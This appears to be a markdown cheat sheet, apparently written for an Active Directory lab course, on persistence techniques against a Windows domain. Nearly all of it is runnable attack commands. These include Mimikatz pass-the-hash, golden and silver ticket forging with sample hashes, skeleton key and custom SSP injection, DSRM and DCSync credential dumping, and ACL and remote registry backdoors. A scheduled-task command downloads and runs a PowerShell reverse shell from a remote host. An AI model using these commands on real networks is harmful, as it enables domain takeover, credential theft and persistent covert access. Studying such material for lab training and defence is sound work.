

# Persistence
> Persistence technique

## Table of Content
1. [Over Pass The Hash](#Over-Pass-The-Hash)
2. [Golden ticket](#Golden-ticket)
3. [Silver Ticket](#Silver-Ticket)
4. [Avaiable services](#Avaiable-services)
5. [Skeleton key](#Skeleton-key)
6. [DSRM](#DSRM)
7. [ACL](#ACL)


## Over Pass The Hash
PTH with mimikatz --> perform activities as the hash but Windows still think I am the same person
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

## Golden ticket
Create Golden Ticket -> need krbtgt hash
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
## Silver Ticket
Use hash of service account - In this case dcorp-dc$
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```


## Avaiable services
>image form [Hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)



CIFS service (CIFS)
```powershell
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
wmi service (HOST + RPCSS)
```powershell
# check
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local

wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

.\PsExec.exe \\dcorp-dc.dollarcorp.moneycorp.local ipconfig
```
WinRM (HTTP + HOST) - winrm must enable
```powershell
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
PsExec (CIFS? + HOST?)
```powershell
.\PsExec.exe \\dcorp-dc.dollarcorp.moneycorp.local ipconfig
```
Scheduled Tasks (HOST)
```powershell
# Check Access
schtasks /S dcorp-dc.dollarcorp.moneycorp.local
# Create
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
# Run
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
DC Sync
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
to do
- add other services


## Skeleton key
Inject skeleton key
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
Access any computer as any user on the domain using password **mimikatz**
```powershell
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
```
In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
Note that above would be very noisy in logs - Service installation (Kernel mode driver)

## DSRM
Dump DSRM password (needs DA privs)
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```
output form command above - Hash NTLM is DSRM password
```
RID  : 000001f4 (500)
User : Administrator
Hash NTLM: a102ad5753f4c441e3af31c97fad86fd
RID  : 000001f5 (501)
User : Guest
```
we can pass this hash to authenticate, but we need to change the configuration first
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
Then you can (over) pass the hash using mimikatz
> note that the "domain" used is just the name of the DC machine unlike other PTH
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd  /run:powershell.exe"'
```
After PTH you coul access to share or remote code exection like WMI

## Custom SSP
there are 2 ways to exploit this
1. Drop the mimilib.dll to system32 and add mimilib to **HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security** Packages:
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name'Security Packages' -Value $packages
```
2. Using mimikatz, inject into lsass (Not stable with Server 2016):
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
Then, All local logons on the DC are logged to 
**C:\Windows\system32\kiwissp.log**

## ACL
> All ACL attack need DA right
### AdminSDHolder
> AdminSDHolder - Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL. 

#### 1. Add ACL
Add FullControl permissions for a user to the AdminSDHolder:
```powershell
# PowerView
Add-ObjectAcl -TargetADSprefix'CN=AdminSDHolder,CN=System' -PrincipalSamAccountNamestudent1 -Rights All -Verbose

# AD Module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
Other interesting permissions (ResetPassword, WriteMembers) for a user
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights ResetPassword -Verbose

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights WriteMembers -Verbose
```

#### 2. Run SDProp
Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
For pre-Server 2008 machines:

```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### 3. Checking

```powershell
# PowerView
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}

#ActiveDirectory Module
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

#### 4. Abuse Full Control
Add member
```powershell
# powerveiw_dev
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

#ActiveDirectory Module
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```
reset password
```powershell
# powerveiw_dev
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

#ActiveDirectory Module
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### Right Abuse
> same as AdminSDHolder but I'am add item directly to the domain.
Add FullControl rights
```powershell
#Using PowerView:
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student134 -Rights All -Verbose 

#Using ActiveDirectory Module and Set-ADACL:
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
Add rights for DCSync
```powershell
#Using PowerView:
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose

#Using ActiveDirectory Module and Set-ADACL:
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```
Execute DCSync:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Security Descriptor
> config security descriptor so we can access (with WMI or powershell) and execute command on DC
#### WMI
ACLs can be modified to allow non-admin users access to securable objects.
On the attacker machine
```powershell
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName student1 -Verbose
```
 On remote machine
 ```powershell
 . C:\AD\Tools\RACE.ps1
 Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
 ```
On remote machine with explicit credentials. Only root\cimv2 and nested namespaces
  ```powershell
 . C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
 ```

On remote machine remove permissions:
  ```powershell
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose
 ```

 #### PowerShell Remoting
 > using RACE.ps1

On attacker machine:
```powershell
Set-RemotePSRemoting -SamAccountName attacker_username -Verbose
 ```
On remote/victim machine for student1 without credentials:
> note that after changing the ACL the session will be terminate
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
 ```
On remote machine, remove the permissions:
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
 ```

 #### Remote Registry
> using RACE.ps1

Using DAMP, with admin privs on remote machine
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
 ```
As student1(local), retrieve machine account hash:
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
 ```
Retrieve local account hash:
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
 ```
Retrieve domain cached credentials:
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
 ```